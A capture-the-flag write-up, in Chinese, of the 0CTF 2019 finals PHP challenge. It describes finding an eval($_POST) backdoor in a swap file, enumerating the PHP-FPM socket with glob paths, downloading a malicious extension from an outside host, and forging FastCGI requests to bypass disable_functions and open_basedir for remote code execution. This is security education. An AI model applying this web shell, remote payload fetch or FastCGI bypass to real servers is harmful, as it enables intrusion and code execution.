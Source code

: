 # Wallbreaker (not very) Hard

### [English Version](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker%20(not%20very)%20Hard/README_en.md)

## 題目分析

- 這題基本上跟 0CTF 2019 初賽那題環境一樣:
    - PHP-FPM
    - PHP 7.2
    - 更嚴格的 `disable_functions`
        - `pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,putenv,proc_open,passthru,symlink,link,syslog,imap_open,dl,system,mb_send_mail,mail,error_log`
        - 這次不能再用`putenv`了:p
    - `open_basedir: /var/www/html:/tmp`

![](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker%20(not%20very)%20Hard/phpinfo.png)

- 首先這題告訴我們有個backdoor，但要自己去找
- 踹了一下發現有`.index.php.swp`
- backdoor key: `eval($_POST["anfkBJbfqkfqasd"]);`
- 後面就開始繞`disable_functions`和`open_basedir`

## Exploit

- 在初賽時，我偽造 fastcgi 去繞過 `open_basedir` (把設定寫掉)
- 但其實我後來發現可以透過 extension 直接 RCE
- 只要把 `PHP_ADMIN_VALUE` 中的 `extension_dir` 和 `extension` 寫掉就可以載入任意 extension
- 所以我們第一步就是上傳能執行 Command 的 extension:

```php
file_put_contents("/tmp/bad.so", file_get_contents("http://kaibro.tw/bad.so"));
```

- 在偽造 FastCGI Protocol 之前，我們必須先找出他的 UNIX Socket path (如果是走 tcp，就要找到 port):

```php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/php/*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/php/.*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}<br/>";
}
```

=> `/var/run/php/U_wi11_nev3r_kn0w.sock`

- 接著開始偽造 FastCGI Protocol 寫掉設定，這邊可以參考我的另一個repo: [Tool](https://github.com/w181496/FuckFastcgi/)
    - 把裡面對應的設定改掉就行

![](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker%20(not%20very)%20Hard/getflag.png)

- RCE Get!
- `/readflag` => `flag{PHP-FPM is awesome and I think the best pratice is chroot your PHP}`

